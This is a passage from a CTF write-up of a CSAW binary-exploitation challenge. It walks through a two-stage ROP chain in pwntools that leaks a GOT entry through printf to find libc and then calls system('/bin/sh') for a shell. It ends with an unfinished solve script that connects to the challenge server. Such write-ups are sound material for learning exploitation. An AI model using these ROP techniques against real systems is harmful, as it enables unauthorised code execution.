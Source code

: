 ## Getting a shell

Using the payload we constructed above, we can an adjust-gadget that pops a few
things off the stack, in order to land inside our stack buffer.

We found a gadget that pops into irrelevant registers 4 times, landing exactly
after our crafted class pointer in the stack buffer.

From that point, we have ROP, and can ROP to `printf` in order to leak a GOT
entry and recover the libc base address. After that, we ROP back to main in
order to send a second ROP-chain and jump to libc's `system`


Stage 1 ROP-chain:

```py
data = b"%sEND"

rop.raw(rop_rdi)
rop.raw(turtle + base_data)

rop.raw(rop_rsi_r15)
rop.raw(setvbuf_got)
rop.raw(0)

rop.raw(printf_plt)
rop.raw(main_addr)
```

Using that knowledge, we can now calculate the address of `system` in the libc
and get a shell:

Stage 2 ROP-chain:

```py
data = b"/bin/sh"
 
rop.raw(rop_rdi)
rop.raw(turtle + base_data)
rop.raw(libc.symbols[b"system"])
```

With that, we can execute `cat flag` and get the flag:

```
flag{i_like_turtl3$_do_u?}
```

## The Script

This is the python script used to solve the challenge, after being cleaned up a
bit:

```py
from pwn import *

context.arch = "amd64"

r = remote("pwn.chal.csaw.io", 9003)

libc = ELF("libs-nopreload/libc.so.6")

r.readuntil(b": ")
turtle = int(r.readline(), 16)
print("turtle address: 0x{:016x}".format(turtle))

main_addr = 0x400B84
class_turtle = 0x6014c0

```